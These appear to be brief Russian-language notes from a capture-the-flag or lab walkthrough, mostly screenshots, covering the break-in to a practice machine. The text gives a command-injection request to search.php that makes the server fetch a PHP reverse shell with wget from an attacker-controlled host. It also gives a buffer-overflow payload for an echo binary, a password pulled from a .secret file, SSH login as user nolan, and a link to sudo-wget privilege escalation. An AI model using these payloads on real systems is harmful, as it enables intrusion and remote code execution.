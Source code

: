 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1a38ac51-1a71-40a9-9c4d-27dcbd325b4c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/129f46fa-dfea-4027-aa7e-82b8a1a399c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec09e955-ff2b-4d52-9d4a-46465ac1556a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7cee6efb-9ccb-4798-9a2a-ddec783d331d)

Кидаем реверс php

GET /search.php?q=%22%3bwget%20ip:1234/test1.php%3b%22

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9bbdcef7-fd6c-4aae-8c64-6478e7d687da)

find / -user nolan

echo

https://cocomelonc.github.io/pwn/2021/10/19/buffer-overflow-1.html

./usr/bin/echo $(python3 -c 'print("A"*8001+"\x01")')

Читаем файл .secret там пароль

Заходим по ssh ssh nolan@62.173.140.174 -p 18822

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/



